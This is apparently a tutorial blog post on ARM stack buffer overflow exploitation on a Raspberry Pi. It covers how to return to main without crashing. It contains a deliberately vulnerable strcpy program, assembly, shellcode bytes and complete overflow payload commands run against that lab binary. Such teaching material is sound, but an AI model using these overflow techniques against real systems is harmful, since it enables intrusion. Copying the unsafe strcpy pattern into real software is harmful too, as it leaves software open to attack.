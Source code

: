 ```yaml
---
layout: single
title: "ARM Exploitation with Raspberry Pi: Return Back to Program without Crashing"
excerpt:  "In this blog post, I will introduce you to ARM exploitation with Raspberry Pi and discuss how to return back to a program without crashing. We will be exploring the basics of stack buffer overflow and the techniques to bypass stack protections."  
seo_title:  "ARM Exploitation with Raspberry Pi: Return Back to Program without Crashing"
seo_description:  "Learn how to perform ARM exploitation with Raspberry Pi and return back to a program without crashing. This blog post covers the basics of stack buffer overflow and techniques to bypass stack protections. Get started with ARM exploitation today."
header:
  image: "https://live.staticflickr.com/65535/49799517733_05b4a81f72_h.jpg"
  teaser: "https://live.staticflickr.com/65535/49799517733_05b4a81f72_h.jpg"
categories:
  - Security
tags:
  - Exploitation
  - Tutorial
  - ARM
  - Buffer Overflow
  - Raspberry Pi
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```


In the previous post we have seen how to exploit using simple stack-based buffer overflow. 

[ARM Exploitation with Raspberry Pi: Basic Stack Overflow](https://shantoroy.com/security/ARM-exploitation-raspberry-pi-stack-overflow/)

However, in that post, we exploited the stack using a shellcode and later the program crashed. What if we executed some basic instructions and then return back to the main program as if nothing happened?

In this post, we will learn how to return back to the main program without crashing (avoid segmentation fault) even after we are overflowing the buffer.

Here, we will use the same C program that we used before.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// This is our vulnerable function
void vulnerable(char *arg) {
    char buff[100];
    // to print return address
    printf("%p\n",&buff[0]);  
    strcpy(buff, arg);
}

// Pass argument in the vulnerable function
int main(int argc, char *argv[]) {
    vulnerable(argv[1]);
    return 0;
}
```

## Debugging
The first thing we need to know is the original return address. We can simply find the return address by disassembling the main program.

```
gef➤  disass main
Dump of assembler code for function main:
   0x000104f4 <+0>:		push	{r11, lr}
   0x000104f8 <+4>:		add	r11, sp, #4
   0x000104fc <+8>:		sub	sp, sp, #8
   0x00010500 <+12>:	str	r0, [r11, #-8]
   0x00010504 <+16>:	str	r1, [r11, #-12]
   0x00010508 <+20>:	ldr	r3, [r11, #-12]
   0x0001050c <+24>:	add	r3, r3, #4
   0x00010510 <+28>:	ldr	r3, [r3]
   0x00010514 <+32>:	mov	r0, r3
   0x00010518 <+36>:	bl	0x104b4 <vulnerable>
   0x0001051c <+40>:	mov	r3, #0
   0x00010520 <+44>:	mov	r0, r3
   0x00010524 <+48>:	sub	sp, r11, #4
   0x00010528 <+52>:	pop	{r11, pc}
End of assembler dump.
```

Here, we see, after the main functions calls **`vulnerable`** at address `0x00010518`, it returns back to the main at **`0x0001051c`**. 

So, after performing the `strcpy` in the `vulnerable` function, if we can return back to the original address, we can avoid the segmentation fault.

**Note**: usually, after overflowing the buffer and overwriting the original return address with the one points at NOP inside the same buffer, the program crashes as it no longer contains the original address.

Now, here, we will discuss two different ways to return back to the original program.
1. Return Using Program Counter
2. Return Using Linking Register

Here, the payload will look like as follows:
```
payload = NOP + shellcode + original return address 
		+ padding + overwritten return address pointing NOP 
```

## Return Using Program Counter
Here, we can simply load the return address in the `Program Counter` and the PC will point back to the main program.


### Assembly Code
Here is the instruction set that loads the address in PC.
```bash
.globl _start
_start:
	ADD R11, SP, #12
	LDR R1, [PC, #4]
	SUB PC, R1, #0x01000000

# as testf.s -o testf.o && ld -N testf.o -o testf
```
Point to be noted, we have the return address as **`0x0001051c`**, which have a NULL byte. So, we cannot simply use the instruction `LDR PC, [PC, #4]`. To remove it, first we load the address without null byte in register `R1` and then we subtract whatever we added to remove the NULL byte.

In ARM, the PC by default points to the instruction position by 8 Bytes from the current instruction. So, if we use `PC, #4`, that means we will have to use 4 Bytes of padding before we put the address in `Little Endian` format.

Using the first instruction, we fixed the frame address as it changes by 12 Bytes when it executes our shellcode. It may vary depending on the system you use.


### Shell Code
Now, we will generate the shellcode of the binary file as follows.
```bash
pi@raspberry$ ./hexstring.sh testf
"\x0c\xb0\x8d\xe2\x04\x10\x9f\xe5\x01\xf4\x41\xe2"
```

Note that, the code of the script named **`hexstring.sh`** is available in the first post of our exploitation tutorial series.

See post: [ARM Exploitation with Raspberry Pi: Lab Setup](https://shantoroy.com/security/ARM-exploitation-Raspberry-Pi-lab-setup/)

### Debugging
Let's first disassemble the vulnerable function
```
gef➤  disassemble vulnerable
Dump of assembler code for function vulnerable:
   0x000104b4 <+0>:		push	{r11, lr}
   0x000104b8 <+4>:		add	r11, sp, #4
   0x000104bc <+8>:		sub	sp, sp, #112	; 0x70
   0x000104c0 <+12>:	str	r0, [r11, #-112]	; 0xffffff90
   0x000104c4 <+16>:	sub	r3, r11, #104	; 0x68
   0x000104c8 <+20>:	mov	r1, r3
   0x000104cc <+24>:	ldr	r0, [pc, #28]	; 0x104f0 <vulnerable+60>
   0x000104d0 <+28>:	bl	0x10354 <printf@plt>
   0x000104d4 <+32>:	sub	r3, r11, #104	; 0x68
   0x000104d8 <+36>:	ldr	r1, [r11, #-112]	; 0xffffff90
   0x000104dc <+40>:	mov	r0, r3
   0x000104e0 <+44>:	bl	0x10360 <strcpy@plt>
   0x000104e4 <+48>:	nop			; (mov r0, r0)
   0x000104e8 <+52>:	sub	sp, r11, #4
   0x000104ec <+56>:	pop	{r11, pc}
   0x000104f0 <+60>:			; <UNDEFINED> instruction: 0x000105b8
End of assembler dump.
```
Now, let's take the breakpoint at the last instruction that returns back to the main function.
```
gef➤  b *0x000104ec
Breakpoint 1 at 0x104ec
```
Now, let's exploit using the following payload:
```
gef➤ run $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\x10\x9f\xe5\x01\xf4\x41\xe2" + "AAAA"+ "\x1c\x05\x01\x01" + "JUNK"+ "\xd8\xf3\xff\x7e"')
```
Now, we can check the register contents and step by step instruction execution using the **`stepi`** command.

### Execution in Terminal
If succeed using the debugger, we can now test in the terminal. 

```bash
pi@raspberry$ ./buf $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\x10\x9f\xe5\x01\xf4\x41\xe2" + "AAAA"+ "\x1c\x05\x01\x01" + "JUNK"+ "\x6c\xf4\xff\x7e"')
```
One thing to remember, the address of the buffer may change outside gdb. So, first check the address printed while running the program.

## Return Using Linking Register
As `LR` contains the return address, we can also load the original address again in the LR and then branch (BX) to it. Here, follow the similar steps we discussed above.
 
### Assembly Instruction
```
.globl _start
_start:
	ADD R11, SP, #12
	LDR LR, [PC, #4]
	SUB LR, LR, #0x01000000
	BX LR

# as testa.s -o testa.o && ld -N testa.o -o testa
```

### Shellcode
```
"\x0c\xb0\x8d\xe2\x04\xe0\x9f\xe5\x01\xe4\x4e\xe2\x1e\xff\x2f\xe1"
```

### Debugging
```
gef> run $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\xe0\x9f\xe5\x01\xe4\x4e\xe2\x1e\xff\x2f\xe1"+ "\x1c\x05\x01\x01" + "JUNK"+ "\xd8\xf3\xff\x7e"')
```

### Execution in Terminal
```
./buf $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\xe0\x9f\xe5\x01\xe4\x4e\xe2\x1e\xff\x2f\xe1"+ "\x1c\x05\x01\x01" + "JUNK"+ "\x7c\xf4\xff\x7e"')
```


## Full ARM Exploitation Series
* [ARM Exploitation with Raspberry Pi: Lab Setup](https://shantoroy.com/security/ARM-exploitation-Raspberry-Pi-lab-setup/)
* [ARM Exploitation with Raspberry Pi: Basic Stack Overflow](https://shantoroy.com/security/ARM-exploitation-raspberry-pi-stack-overflow/)
* [ARM Exploitation with Raspberry Pi: ARM Ret-to-Libc](https://shantoroy.com/security/ret-to-libc-arm-exploitation-raspberry-pi/)
* [ARM Exploitation with Raspberry Pi: Introduction to Return Oriented Programming (ROP)](https://shantoroy.com/security/simple-rop-arm-exploitation-return-oriented-programming/)
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTA4MDkxMTE0OSwtMjE0Mzg4NzE5MSwxMD
EzMTgxODc4LC03Nzg2NDkzNzQsLTE0NjkxMjcyMzksMjA0NDAw
Nzc5NSwxODkzMDc3Mzg0LDEwNjQ1ODM0MTMsMjkzMTcyNTEsOT
YzNDI3NzQ0LDE4OTU2Nzg4NTQsMTIyNTA1NDYwMV19
-->